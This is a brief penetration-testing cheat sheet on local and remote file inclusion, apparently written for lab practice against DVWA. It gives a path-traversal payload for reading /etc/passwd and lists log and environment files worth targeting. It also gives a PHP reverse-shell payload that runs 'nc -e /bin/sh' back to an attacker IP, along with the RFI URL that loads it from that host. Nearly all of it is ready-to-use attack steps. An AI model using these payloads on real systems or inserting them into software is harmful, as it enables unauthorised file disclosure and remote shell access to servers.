 # File Inclusion

## Local
Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```


Intersting files
  - /proc/self/environ
  - /var/log/auth.log
  - /var/log/apache2/access.log  


Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  

## Remote
Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
``` 
  - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```
